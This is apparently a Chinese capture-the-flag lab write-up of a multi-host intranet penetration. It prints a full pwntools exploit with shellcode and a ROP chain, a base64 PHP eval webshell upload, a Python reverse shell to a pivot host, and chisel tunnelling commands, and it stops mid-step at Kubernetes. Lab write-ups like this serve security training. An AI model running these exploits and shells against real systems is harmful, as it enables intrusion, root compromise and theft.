# 2024 - GreatWall

在这个靶场中，您将扮演一名渗透测试工程师，接受雇佣任务来评估 “SmartLink Technologies Ltd.” 公司的网络安全状况。 您的任务是首先入侵该公司暴露在公网上的应用服务，然后运用后渗透技巧深入 SmartLink 公司的内部网络。在这个过程中，您将寻找潜在的弱点和漏洞，并逐一接管所有服务，从而控制整个内部网络。靶场中共设置了 6 个 Flag，它们分布在不同的靶机上，您需要找到并获取这些 Flag 作为您的成就目标。

<!-- truncate -->

:::info

Tags

- 内网渗透

:::

```plaintext title="入口点"
8.130.110.24
```

## 入口点探测

直接使用 `fscan` 进行扫描探测

```bash
start infoscan
8.130.110.24:8080 open
8.130.110.24:22 open
8.130.110.24:80 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://8.130.110.24      code:200 len:10887  title:""
[*] WebTitle http://8.130.110.24:8080 code:200 len:1027   title:Login Form
[+] PocScan http://8.130.110.24:8080 poc-yaml-thinkphp5023-method-rce poc1
```

## 入口点 ThinkPHP Webshell

发现 `http://8.130.110.24:8080` 服务存在有 ThinkPHP 直接 RCE 漏洞，尝试利用


存在有以下利用 payload

```plaintext
[+] 目标存在 tp5_construct_code_exec_2 漏洞
[+] 目标存在 tp5_construct_code_exec_1 漏洞
```

尝试直接命令执行，发现无回显



尝试直接写入 webshell


然后利用蚁剑建立连接



成功植入 webshell

## flag - 01

```plaintext
flag01: flag{176f49b6-147f-4557-99ec-ba0a351e1ada}
```

## 内网扫描 172.28.23.0/24

上传 `fscan` 到入口点靶机之后，查看网卡信息

```bash
(remote) www-data@portal:/var/www/html/background/public$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.28.23.17  netmask 255.255.0.0  broadcast 172.28.255.255
        inet6 fe80::216:3eff:fe04:8b0a  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:04:8b:0a  txqueuelen 1000  (Ethernet)
        RX packets 54139  bytes 65477946 (65.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16175  bytes 3092855 (3.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 712  bytes 67453 (67.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 712  bytes 67453 (67.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

使用 `fscan` 进行扫描

```bash title="172.28.23.0/24"
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.28.23.17    is alive
(icmp) Target 172.28.23.26    is alive
(icmp) Target 172.28.23.33    is alive
[*] Icmp alive hosts len is: 3
172.28.23.33:8080 open
172.28.23.17:8080 open
172.28.23.26:80 open
172.28.23.33:22 open
172.28.23.26:22 open
172.28.23.17:80 open
172.28.23.17:22 open
172.28.23.26:21 open
[*] alive ports len is: 8
start vulscan
[*] WebTitle http://172.28.23.17       code:200 len:10887  title:""
[*] WebTitle http://172.28.23.17:8080  code:200 len:1027   title:Login Form
[*] WebTitle http://172.28.23.26       code:200 len:13693  title: 新翔 OA 管理系统 - OA 管理平台联系电话：13849422648 微信同号，QQ958756413
[+] ftp 172.28.23.26:21:anonymous
   [->]OASystem.zip
[*] WebTitle http://172.28.23.33:8080  code:302 len:0      title:None 跳转 url: http://172.28.23.33:8080/login;jsessionid=363B8F8B96F639A14C8B7F4646D27459
[*] WebTitle http://172.28.23.33:8080/login;jsessionid=363B8F8B96F639A14C8B7F4646D27459 code:200 len:3860   title: 智联科技 ERP 后台登陆
[+] PocScan http://172.28.23.17:8080 poc-yaml-thinkphp5023-method-rce poc1
[+] PocScan http://172.28.23.33:8080 poc-yaml-spring-actuator-heapdump-file
[+] PocScan http://172.28.23.33:8080 poc-yaml-springboot-env-unauth spring2
```

## 172.28.23.0/24 建立中转枢纽

```bash title="vps"
root@jmt-projekt:~# ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
root@jmt-projekt:~# 2024/08/16 10:58:03 server: Reverse tunnelling enabled
2024/08/16 10:58:03 server: Fingerprint D9Wm+jW4SsG7MFgviTnkO7s3S7aNEYPubfsRa+k9pBM=
2024/08/16 10:58:03 server: Listening on http://0.0.0.0:1337
```

然后将 `chisel_1.9.1_linux_amd64` 传输到入口点靶机之后，执行连接

```bash title="入口点"
(remote) www-data@portal:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 R:0.0.0.0:10000:socks &
2024/08/16 10:59:36 client: Connecting to ws://139.*.*.*:1337
2024/08/16 10:59:36 client: Connected (Latency 46.289192ms)
```

成功建立 socks 代理

## 172.28.23.33 Springboot

根据 `fscan` 的扫描结果，存在有 `poc-yaml-spring-actuator-heapdump-file` 信息泄露，尝试获取

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 wget http://172.28.23.33:8080/actuator/heapdump
......

┌──(randark ㉿ kali)-[~]
└─$ java -jar ./tools/JDumpSpider-1.1-SNAPSHOT-full.jar ./heapdump
......
CookieRememberMeManager(ShiroKey)
-------------
algMode = GCM, key = AZYyIgMYhG6/CzIJlvpR2g==, algName = AES
```

在 heapdump 文件中获取到了 Shiro 框架的 key 之后，就可以执行反序列化 RCE



尝试写入 webshell



尝试连接



成功 getshell

## 172.28.23.33 二进制服务程序攻击

尝试探测目标靶机的所有服务



尝试连接位于 `59696` 端口的服务

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 nc 172.28.23.33 59696
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  139.*.*.*:10000  ...  172.28.23.33:59696  ...  OK
Connection established!
Server time: Fri Aug 16 11:26:17 2024

Username: 123
Password: 123

Unauthorized
```

怀疑是二进制 pwn 攻击，定位到服务位于 `/home/ops01/HashNote` 文件（无法使用 `lsof` 或者 `ss` 进行定位，因为权限不足）

这也说明这个服务是以 root 权限运行的，如果借助 pwn 攻击拿下服务的话，就可以直接获得 root 权限

将程序下载到本地进行分析之后，编写攻击脚本

```python
from pwn import *

elf = ELF('./HashNote')
context(arch=elf.arch, os='linux', log_level='debug')
# p = process('./HashNote')

p = remote('172.28.23.33', 59696)

def send_command(command):
    p.sendlineafter(b':', str(command))

def add_entry(key, value):
    send_command(1)
    p.sendlineafter(b'Key:', key)
    p.sendlineafter(b'Data:', value)

def get_entry(key):
    send_command(2)
    p.sendlineafter(b'Key:', key)

def update_entry(key, value):
    send_command(3)
    p.sendlineafter(b'Key:', key)
    p.sendlineafter(b'Data:', value)

def set_username(value):
    send_command(4)
    p.sendafter(b'New username:', value)

# Authenticate
p.sendlineafter(b'Username:', b'123')
p.sendlineafter(b'Password:', b'freep@ssw0rd:3')

# Add entries to setup the environment
add_entry(b'aabP', b'aaaaaaaa')
add_entry(b'aace', b'C' * 0xc0)

# Shellcode to spawn a shell
sc = [
    b'\x6a\x3b',                   # push   0x3b
    b'\x58',                       # pop    rax
    b'\x99',                       # cdq
    b'\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68', # movabs rbx, 0x68732f6e69622f2f
    b'\x53',                       # push   rbx
    b'\x48\x89\xe7',               # mov    rdi, rsp
    b'\x52',                       # push   rdx
    b'\x57',                       # push   rdi
    b'\x48\x89\xe6',               # mov    rsi, rsp
    b'\x0f\x05'                    # syscall
]
shellcode = b''.join(sc)
username_addr = 0x5dc980
fake_obj_addr = username_addr + 0x10

def arbitrary_read(addr):
    payload = p64(fake_obj_addr)
    payload += p64(0xdeadbeef)

    fake_obj = p64(fake_obj_addr + 0x10) + p64(4)
    fake_obj += b'aahO'.ljust(0x10, b'\x00')
    fake_obj += p64(addr) + p64(8) + b'aaaaaaaa'

    payload += fake_obj
    payload += shellcode
    payload = payload.ljust(128, b'\x00')
    set_username(payload)
    get_entry(b'aahO')

def arbitrary_write(addr, data):
    payload = p64(fake_obj_addr)
    payload += p64(0xdeadbeef)

    fake_obj = p64(fake_obj_addr + 0x10) + p64(4)
    fake_obj += b'aahO'.ljust(0x10, b'\x00')
    fake_obj += p64(addr) + p64(len(data)) + b'aaaaaaaa'

    payload += fake_obj
    payload += shellcode
    payload = payload.ljust(128, b'\x00')
    set_username(payload)
    update_entry(b'aahO', data)

# Leak the stack address
environ = 0x5e4c38
arbitrary_read(environ)
stack_addr = u64((p.recvuntil(b'\x7f', drop=False)[-6:].ljust(8, b'\0')))
success('stack_addr', stack_addr)

# ROP gadgets
rdi = 0x0000000000405e7c
rsi = 0x000000000040974f
rax = 0x00000000004206ba
rdx_rbx = 0x000000000053514b
shr_eax_2 = 0x0000000000523f2e
syscall_ret = 0x00000000004d9776

# ROP payload to map memory and jump to shellcode
payload = p64(rdi) + p64(username_addr & ~0xfff) + p64(rsi) + p64(0x1000) + p64(rdx_rbx) + p64(7) + p64(0) + p64(rax) + p64(0xa << 2) + p64(shr_eax_2) + p64(syscall_ret) + p64(username_addr + 0x48)

arbitrary_write(stack_addr - 0x210, payload)
p.sendline(b'uname -ar')

p.interactive()
```

借助 `proxychains` 将 python 脚本代理到内网中的靶机

```bash
┌──(env)(randark ㉿ kali)-[~/tmp]
└─$ proxychains4 python3 pwn-exploit.py
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[*] '/home/randark/tmp/HashNote'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
[O] Opening connection to 172.28.23.33 on port 59696: Trying 172.28.23.33  [o]
[+] Opening connection to 172.28.23.33 on port 59696: Done
......
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x5 bytes:
    b'root\n'
root
```

## flag - 03

在借助二进制程序的漏洞拿到 root shell 之后，在 `/root` 目录中可以找到 flag

```plaintext
flag{6a326f94-6526-4586-8233-152d137281fd}
```

## 172.28.23.26 信息泄露

尝试访问


首先尝试目录扫描

```bash
┌──(randark ㉿ kali)-[~]
└─$ dirsearch --proxy socks5://139.*.*.*:10000 -u http://172.28.23.26 -i 200
......
[14:13:56] Starting:
[14:14:00] 200 -    6KB - /.DS_Store
[14:14:40] 200 -    0B  - /checklogin.php
[14:14:47] 200 -    3B  - /db.php
[14:14:49] 200 -  532B  - /download/
[14:15:09] 200 -  722B  - /manage/
[14:15:42] 200 -  527B  - /system/
[14:15:47] 200 -   61B  - /upfile.php
[14:15:47] 200 -  546B  - /upload/
[14:15:47] 200 -   50B  - /upload.php
```

未发现存在有可利用点

结合 `fscan` 扫描得到的 `ftp 172.28.23.26:21:anonymous` 记录来看，可能 ftp 存在有信息泄露

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 ftp anonymous@172.28.23.26 21
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  139.*.*.*:10000  ...  172.28.23.26:21  ...  OK
Connected to 172.28.23.26.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10835|)
[proxychains] Strict chain  ...  139.*.*.*:10000  ...  172.28.23.26:10835  ...  OK
150 Here comes the directory listing.
-rw-r--r--    1 0        0         7536672 Mar 23 23:56 OASystem.zip
```

将 `OASystem.zip` 文件下载下来之后，在其中发现 OA 系统的源码



对源码进行审计，发现登录逻辑存在有漏洞

```php title="checklogin.php"
<?php
function islogin(){
    if(isset($_COOKIE['id'])&&isset($_COOKIE['loginname'])&&isset($_COOKIE['jueseid'])&&isset($_COOKIE['danweiid'])&&isset($_COOKIE['quanxian'])){
        if($_COOKIE['id']!=''&&$_COOKIE['loginname']!=''&&$_COOKIE['jueseid']!=''&&$_COOKIE['danweiid']!=''&&$_COOKIE['quanxian']!=''){
            return true;
        }
        else {
            return false;
        }
    }
    else {
        return false;
    }
}
?>
```

可以发现，只需要将几个 `_COOKIE` 属性的值不为空，就可以直接过登录

同时，发现任意文件上传的漏洞

```php title="uploadbase64.php"
<?php
$img = $_POST['imgbase64'];
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $img, $result)) {
    $type = ".".$result[2];
    $path = "upload/" . date("Y-m-d") . "-" . uniqid() . $type;
}
$img =  base64_decode(str_replace($result[1], '', $img));
@file_put_contents($path, $img);
exit('{"src":"'.$path.'"}');
```

可以直接尝试利用

```plaintext
POST /uploadbase64.php HTTP/1.1
Host: 172.28.23.26
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

imgbase64=data:image/png;base64,dGVzdA==
```



测试一下，目标文件的内容确实为 `test`

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ proxychains4 http get 172.28.23.26/upload/2024-08-16-66bef298cdc19.png
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  139.*.*.*:10000  ...  172.28.23.26:80  ...  OK
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: Keep-Alive
Content-Length: 4
Content-Type: image/png
Date: Fri, 16 Aug 2024 06:33:27 GMT
ETag: "4-61fc7213ca6b0"
Keep-Alive: timeout=5, max=100
Last-Modified: Fri, 16 Aug 2024 06:32:56 GMT
Server: Apache/2.4.18 (Ubuntu)

test
```

## 172.28.23.26 webshell

结合发现的任意文件上传漏洞，直接部署 webshell

```plaintext
POST /uploadbase64.php HTTP/1.1
Host: 172.28.23.26
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

imgbase64=data:image/php;base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKSA/Pg==
```



尝试连接



但是需要注意的是，远程靶机上存在有 `disable_functions`



经过测试和排除，可以使用 `LD_proload` 进行绕过



执行成功后，将生成 `/tmp/.98630ant_x64.so` 和 `/var/www/html/OAsystem/upload/.antproxy.php`

手动创建 `/var/www/html/OAsystem/upload/shell-get.php`

```php title="shell-get.php"
<?php @eval($_GET_['a']) ?>
```

然后修改 `/var/www/html/OAsystem/upload/.antproxy.php`



尝试进行利用

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ proxychains4 http get http://172.28.23.26/upload/.antproxy.php?cmd=whoami
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  139.*.*.*:10000  ...  172.28.23.26:80  ...  OK
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 9
Content-Type: text/html; charset=UTF-8
Date: Fri, 16 Aug 2024 06:55:56 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)

www-data
```

成功部署了 webshell

## 172.28.23.26 反弹 shell

由于 `172.28.23.0/24` 这个内网没有出网的能力，所以需要将 vps 上的监听器端口转发到 `172.28.23.17 (入口点)` 上，以便于内网靶机的反弹 shell

```bash title="172.28.23.17"
(remote) www-data@portal:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 9999:9999 &
2024/08/16 15:00:55 client: Connecting to ws://139.*.*.*:1337
2024/08/16 15:00:55 client: tun: proxy#9999=>9999: Listening
2024/08/16 15:00:55 client: Connected (Latency 51.273631ms)
```

然后借助在 OA 系统上部署的 webshell 来执行反弹 shell

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ proxychains4 http get http://172.28.23.26/upload/.antproxy.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22172.28.23.17%22%2C9999%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

成功收到反连 shell

```bash
(remote) www-data@ubuntu-oa:/var/www/html/OAsystem/upload$ whoami
www-data
```

## 172.28.23.26 Suid 提权

尝试扫描 suid 特权文件，发现

```bash
(remote) www-data@ubuntu-oa:/var/www/html/OAsystem/upload$ find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/ping6
/bin/mount
/bin/su
/bin/ping
/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/staprun
/usr/bin/base32
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/sudo
```

可以借助 `base32` 实现任意文件读取

```bash
(remote) www-data@ubuntu-oa:/var/www/html/OAsystem/upload$ base32 /flag02.txt | base32 -d
flag02: flag{56d37734-5f73-447f-b1a5-a83f45549b28}
```

## flag - 02

```plaintext
flag{56d37734-5f73-447f-b1a5-a83f45549b28}
```

## 172.28.23.26 探测环境

查看网卡信息，发现存在双层内网

```bash
(remote) www-data@ubuntu-oa:/var/www/html/OAsystem/upload$ ifconfig
eth0      Link encap:Ethernet  HWaddr 00:16:3e:03:44:3d
          inet addr:172.28.23.26  Bcast:172.28.255.255  Mask:255.255.0.0
          inet6 addr: fe80::216:3eff:fe03:443d/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:111561 errors:0 dropped:0 overruns:0 frame:0
          TX packets:28303 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:119253359 (119.2 MB)  TX bytes:21824361 (21.8 MB)

eth1      Link encap:Ethernet  HWaddr 00:16:3e:04:42:65
          inet addr:172.22.14.6  Bcast:172.22.255.255  Mask:255.255.0.0
          inet6 addr: fe80::216:3eff:fe04:4265/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:860 errors:0 dropped:0 overruns:0 frame:0
          TX packets:863 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:37216 (37.2 KB)  TX bytes:37178 (37.1 KB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:610 errors:0 dropped:0 overruns:0 frame:0
          TX packets:610 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:57067 (57.0 KB)  TX bytes:57067 (57.0 KB)
```

## 172.22.14.0/24 双层内网建立中转枢纽

`172.28.23.0/24` 内网已经建立代理，所以需要针对二层的 `172.22.14.0/24` 建立代理

首先，需要将公网 vps 的 chisel 监听端口 `1337` 转发到内网 `172.28.23.17 (入口点)`

```bash title=""
(remote) www-data@portal:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 1337:11337 &
2024/08/16 15:14:59 client: Connecting to ws://139.*.*.*:1337
2024/08/16 15:14:59 client: tun: proxy#1337=>11337: Listening
2024/08/16 15:15:00 client: Connected (Latency 43.287612ms)
```

然后在一层内网与二层内网共在的靶机上建立转发

```bash title="172.28.23.26 & 172.22.14.6"
(remote) www-data@ubuntu-oa:/tmp$ ./chisel_1.9.1_linux_amd64 client 172.28.23.17:1337 R:0.0.0.0:10001:socks &
2024/08/16 15:24:51 client: Connecting to ws://172.28.23.17:1337
2024/08/16 15:24:51 server: session#8: tun: proxy#R:10001=>socks: Listening
2024/08/16 15:24:51 client: Connected (Latency 47.995041ms)
```

成功建立二层内网的代理

## 内网扫描 172.22.14.0/24

```bash
start ping
(icmp) Target 172.22.14.6     is alive
(icmp) Target 172.22.14.37    is alive
(icmp) Target 172.22.14.46    is alive
[*] Icmp alive hosts len is: 3
172.22.14.46:80 open
172.22.14.46:22 open
172.22.14.37:22 open
172.22.14.6:80 open
172.22.14.6:22 open
172.22.14.6:21 open
172.22.14.37:2379 open
172.22.14.37:10250 open
[*] alive ports len is: 8
start vulscan
[*] WebTitle: http://172.22.14.6        code:200 len:13693  title: 新翔 OA 管理系统 - OA 管理平台联系电话：13849422648 微信同号，QQ958756413
[*] WebTitle: http://172.22.14.46       code:200 len:785    title:Harbor
[+] InfoScan:http://172.22.14.46       [Harbor]
[+] ftp://172.22.14.6:21:anonymous
   [->]OASystem.zip
[*] WebTitle: https://172.22.14.37:10250 code:404 len:19     title:None
[+] http://172.22.14.46/swagger.json poc-yaml-swagger-ui-unauth [{path swagger.json}]
```

## 172.22.14.46 Harbor 镜像泄露

使用 `CVE-2022-46463` 漏洞，将 Harbor 上的信息进行获取

```bash
┌──(randark ㉿ kali)-[~/pocs/CVE-2022-46463]
└─$ proxychains4 -q python3 harbor.py http://172.22.14.46
[*] API version used v2.0
[+] project/projectadmin
[+] project/portal
[+] library/nginx
[+] library/redis
[+] harbor/secret
```

将 `harbor/secret` 这个镜像获取下来分析

```bash
┌──(randark ㉿ kali)-[~/pocs/CVE-2022-46463]
└─$ proxychains python3 harbor.py http://172.22.14.46 --dump harbor/secret --v2
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
[+] Dumping : harbor/secret:latest
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
    [+] Downloading : 58690f9b18fca6469a14da4e212c96849469f9b1be6661d2342a4bf01774aa50
[Errno 1] Operation not permitted
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
    [+] Downloading : b51569e7c50720acf6860327847fe342a1afbe148d24c529fb81df105e3eed01
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
    [+] Downloading : da8ef40b9ecabc2679fe2419957220c0272a965c5cf7e0269fa1aeeb8c56f2e1
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
    [+] Downloading : fb15d46c38dcd1ea0b1990006c3366ecd10c79d374f341687eb2cb23a2c8672e
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
    [+] Downloading : 413e572f115e1674c52e629b3c53a42bf819f98c1dbffadc30bda0a8f39b0e49
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.14.46:80  ...  OK
    [+] Downloading : 8bd8c9755cbf83773a6a54eff25db438debc22d593699038341b939e73974653
```

然后对镜像进行分析，在其中找到 flag 文件

```bash
┌──(randark ㉿ kali)-[~/pocs/CVE-2022-46463/caches/harbor_secret/latest]
└─$ cat 413e572f115e1674c52e629b3c53a42bf819f98c1dbffadc30bda0a8f39b0e49/f1ag05_Yz1o.txt
flag05: flag{8c89ccd3-029d-41c8-8b47-98fb2006f0cf}
```

## flag - 05

```plaintext
flag{8c89ccd3-029d-41c8-8b47-98fb2006f0cf}
```

## 172.22.14.37 Kubernetes

存在有 Kubernetes API 未授权，尝试进行攻击

```json title="https://172.22.14.37:6443"
{
    "paths": [
        "/api",
        "/api/v1",
        "/apis",
        "/apis/",
        "/apis/admissionregistration.k8s.io",
        "/apis/admissionregistration.k8s.io/v1",
        "/apis/admissionregistration.k8s.io/v1beta1",
        "/apis/apiextensions.k8s.io",
        "/apis/apiextensions.k8s.io/v1",
        "/apis/apiextensions.k8s.io/v1beta1",
        "/apis/apiregistration.k8s.io",
        "/apis/apiregistration.k8s.io/v1",
        "/apis/apiregistration.k8s.io/v1beta1",
        "/apis/apps",
        "/apis/apps/v1",
        "/apis/authentication.k8s.io",
        "/apis/authentication.k8s.io/v1",
        "/apis/authentication.k8s.io/v1beta1",
        "/apis/authorization.k8s.io",
        "/apis/authorization.k8s.io/v1",
        "/apis/authorization.k8s.io/v1beta1",
        "/apis/autoscaling",
        "/apis/autoscaling/v1",
        "/apis/autoscaling/v2beta1",
        "/apis/autoscaling/v2beta2",
        "/apis/batch",
        "/apis/batch/v1",
        "/apis/batch/v1beta1",
        "/apis/certificates.k8s.io",
        "/apis/certificates.k8s.io/v1beta1",
        "/apis/coordination.k8s.io",
        "/apis/coordination.k8s.io/v1",
        "/apis/coordination.k8s.io/v1beta1",
        "/apis/events.k8s.io",
        "/apis/events.k8s.io/v1beta1",
        "/apis/extensions",
        "/apis/extensions/v1beta1",
        "/apis/networking.k8s.io",
        "/apis/networking.k8s.io/v1",
        "/apis/networking.k8s.io/v1beta1",
        "/apis/node.k8s.io",
        "/apis/node.k8s.io/v1beta1",
        "/apis/policy",
        "/apis/policy/v1beta1",
        "/apis/rbac.authorization.k8s.io",
        "/apis/rbac.authorization.k8s.io/v1",
        "/apis/rbac.authorization.k8s.io/v1beta1",
        "/apis/scheduling.k8s.io",
        "/apis/scheduling.k8s.io/v1",
        "/apis/scheduling.k8s.io/v1beta1",
        "/apis/storage.k8s.io",
        "/apis/storage.k8s.io/v1",
        "/apis/storage.k8s.io/v1beta1",
        "/healthz",
        "/healthz/autoregister-completion",
        "/healthz/etcd",
        "/healthz/log",
        "/healthz/ping",
        "/healthz/poststarthook/apiservice-openapi-controller",
        "/healthz/poststarthook/apiservice-registration-controller",
        "/healthz/poststarthook/apiservice-status-available-controller",
        "/healthz/poststarthook/bootstrap-controller",
        "/healthz/poststarthook/ca-registration",
        "/healthz/poststarthook/crd-informer-synced",
        "/healthz/poststarthook/generic-apiserver-start-informers",
        "/healthz/poststarthook/kube-apiserver-autoregistration",
        "/healthz/poststarthook/rbac/bootstrap-roles",
        "/healthz/poststarthook/scheduling/bootstrap-system-priority-classes",
        "/healthz/poststarthook/start-apiextensions-controllers",
        "/healthz/poststarthook/start-apiextensions-informers",
        "/healthz/poststarthook/start-kube-aggregator-informers",
        "/healthz/poststarthook/start-kube-apiserver-admission-initializer",
        "/livez",
        "/livez/autoregister-completion",
        "/livez/etcd",
        "/livez/log",
        "/livez/ping",
        "/livez/poststarthook/apiservice-openapi-controller",
        "/livez/poststarthook/apiservice-registration-controller",
        "/livez/poststarthook/apiservice-status-available-controller",
        "/livez/poststarthook/bootstrap-controller",
        "/livez/poststarthook/ca-registration",
        "/livez/poststarthook/crd-informer-synced",
        "/livez/poststarthook/generic-apiserver-start-informers",
        "/livez/poststarthook/kube-apiserver-autoregistration",
        "/livez/poststarthook/rbac/bootstrap-roles",
        "/livez/poststarthook/scheduling/bootstrap-system-priority-classes",
        "/livez/poststarthook/start-apiextensions-controllers",
        "/livez/poststarthook/start-apiextensions-informers",
        "/livez/poststarthook/start-kube-aggregator-informers",
        "/livez/poststarthook/start-kube-apiserver-admission-initializer",
        "/logs",
        "/metrics",
        "/openapi/v2",
        "/readyz",
        "/readyz/autoregister-completion",
        "/readyz/etcd",
        "/readyz/log",
        "/readyz/ping",
        "/readyz/poststarthook/apiservice-openapi-controller",
        "/readyz/poststarthook/apiservice-registration-controller",
        "/readyz/poststarthook/apiservice-status-available-controller",
        "/readyz/poststarthook/bootstrap-controller",
        "/readyz/poststarthook/ca-registration",
        "/readyz/poststarthook/crd-informer-synced",
        "/readyz/poststarthook/generic-apiserver-start-informers",
        "/readyz/poststarthook/kube-apiserver-autoregistration",
        "/readyz/poststarthook/rbac/bootstrap-roles",
        "/readyz/poststarthook/scheduling/bootstrap-system-priority-classes",
        "/readyz/poststarthook/start-apiextensions-controllers",
        "/readyz/poststarthook/start-apiextensions-informers",
        "/readyz/poststarthook/start-kube-aggregator-informers",
        "/readyz/poststarthook/start-kube-apiserver-admission-initializer",
        "/readyz/shutdown",
        "/version"
    ]
}
```

:::warning

需要注意的是，由于 `kubectl` 自行设计了网络交互的逻辑，所以没办法由 `proxychains` 注入来实现代理，所以比较熬好的方案就是使用端口转发将 Kubernetes 端口转发出来

:::

首先先转发服务

```bash title="172.22.14.6"
(remote) www-data@ubuntu-oa:/tmp$ ./chisel_1.9.1_linux_amd64 client 172.28.23.17:1337 R:0.0.0.0:10003:172.22.14.37:6443
2024/08/16 16:25:08 client: Connecting to ws://172.28.23.17:1337
2024/08/16 16:25:08 server: session#16: tun: proxy#R:10003=>172.22.14.37:6443: Listening
2024/08/16 16:25:08 client: Connected (Latency 48.219025ms)
```

然后尝试连接 Kubernetes 服务

```bash
┌──(randark ㉿ kali)-[~/tools]
